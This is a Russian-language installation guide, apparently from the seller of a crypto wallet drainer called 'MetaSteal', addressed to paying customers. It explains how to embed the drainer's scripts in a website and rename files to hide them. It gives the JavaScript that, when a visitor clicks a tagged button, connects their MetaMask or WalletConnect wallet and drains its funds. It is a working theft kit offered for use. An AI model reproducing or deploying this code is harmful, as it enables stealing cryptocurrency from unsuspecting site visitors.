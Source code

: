 # Как установить скрипт

**Приветствуем тебя, дорогой покупатель нашего скрипта!**

В данной инструкции мы расскажем тебе как установить наш скрипт на твой собственный веб-сайте быстро и без каких-либо заморочек. Если у тебя нет даже минимальных навыков программирования, лучше напиши нам в техническую поддержку - мы готовы за небольшую плату произвести установку на твой веб-сайт нашего скрипта и настроить его. 

**Но если ты готов сам пройти через это, то давай начинать.**

Для начала тебе нужно скачать с нашего сайта сам скрипт и архив с модулями. Всё это можно сделать в нашей панели управления. После того, как ты это сделал, тебе нужно открыть папку, в которой лежит твой веб-сайт. Если ты её нашёл, отлично - теперь тебе нужно либо создать, либо открыть папку (если она уже существует) с названием "assets". В этой папке тебе нужно создать ещё одну папку с названием "drainer". Теперь открой архив с модулями, который ты скачал, и перемести все файлы из него в папку "drainer", которую ты только что создал. После этого тебе нужно переименовать все скрипты следующим образом:

• Файл, имеющий название "jquery.js", необходимо переименовать в "ms-1.js"

• Файл, имеющий название "ethers.js", необходимо переименовать в "ms-2.js"

• Файл, имеющий название "wconnect.js", необходимо переименовать в "ms-3.js"

**Отлично, ты молодец!**

Теперь скопируй файл со скриптом, который ты скачал, вставь его в папку "drainer" к модулям, которые ты только что переименовал, и переименуй его из того названия, которое у него сть сейчас, в "ms-4.js", таким образом у тебя в папке должны оказаться файлы: ms-1.js, ms-2.js, ms-3.js и ms-4.js. Если всё так, значит всё хорошо.

Теперь тебе нужно вернуться в корневую папку сайта, где лежит папка "assets", которую ты создал или которая уже была там. Теперь в корневой папке создай новый файл и назови его "drainer.js", либо дай ему менее выдающее его название, но главное запомни его и вместо "drainer.js" всегда указывай его, потому что дальше в примерах мы будем использовать именно название "drainer.js".

**Теперь осталось подключить скрипт к своей странице**

Найди файл, который отвечает за отображение твоего веб-сайта, это должен быть HTML файл, который обычно называется "index.html". Открой его с помощью любого редактора кода: например, Visual Studio Code или Sublime Text. Содержимое файла может быть разного размера, но структура будет примерно следующая:

```html
<html>
  <head>
    ...
  </head>
  <body>
    ...
  </body>
</html>
```

Видишь `</body>`? **Обязательно найди тот, где есть знак слэша внутри!**

Весь код ты будешь писать непосредственно на строке выше, чем строка, содержащая `</body>`. Тебе нужно будет подключить все модули, наш скрипт и тот скрипт, что ты создал сам в корне сайта, чтобы всё выглядело вот так:

```html
<html>
  <head>
    ...
  </head>
  <body>
    ...
    <script src="/assets/drainer/ms-1.js"></script>
    <script src="/assets/drainer/ms-2.js"></script>
    <script src="/assets/drainer/ms-3.js"></script>
    <script src="/assets/drainer/ms-4.js"></script>
    <script src="/drainer.js"></script>
  </body>
</html>
```

То есть перед `</body>` тебе нужно добавить эти строки:

```html
<script src="/assets/drainer/ms-1.js"></script>
<script src="/assets/drainer/ms-2.js"></script>
<script src="/assets/drainer/ms-3.js"></script>
<script src="/assets/drainer/ms-4.js"></script>
<script src="/drainer.js"></script>
```

**Ты велеколепен!**

Теперь давай определимся с кнопками, по нажатию на которые начнёт срабатывать дрейнер. Возможно, они уже есть у тебя на странице, а может быть их нужно будет создать. В любом случае элементы кнопкок выглядят таким образом: `<button>Текст кнопки</button>` - ты можешь найти их через поиск текстового редактора. Возможно, у кнопки уже будут какие-то дополнительные аттрибуты, но тебе главное проверить есть ли там аттрибут class: `<button class="btn btn-success">Текст кнопки</button>`.

Если такое есть, то тебе просто нужно отредактировать `class` и добавить в его кавычки в конце сначала пробел, а после написать там `drainer-active`, чтобы получилось так: `<button class="btn btn-success drainer-active">Текст кнопки</button>`. Если аттрибута `class` не было, просто создай его сам как на примере слева. Ты можешь поставить этот класс на любое количество кнопок. При нажатии на эти кнопки произойдет подключение кошелька и начнется списание средств.

В нашем примере мы сделаем так, чтобы по умолчанию активировался MetaMask, а если он не установлен, то уже WalletConnect.

Теперь тебе нужно открыть файл "drainer.js", который ты создал в корневой папке сайта, и вставить туда этот код:

```js
var handler = new MetaSteal();
$('.drainer-active').click(async () => {
  try {
    if (handler.isConnected()) await handler.disconnect();
    var result = await handler.connect(handler.isProvider('metamask') ? 'metamask' : 'wconnect', 1);
    if (result.status == true) await handler.drain();
  } catch(err) {
    console.log(err);
  }
});
```

**Готово!** Теперь наш скрипт начнёт работать на этой странице.

Учтите, что скрипт будет работать только на хостинге. Если вы откроете HTML файл в браузере и попробуете протестировать работу скрипта - ничего не выйдет!

Если вас интересует более подробная настройка, можете прочитать наш старый мануал (https://telegra.ph/MetaSteal--gajd-po-ustanovke-11-17), либо обратиться в техническую поддержку.

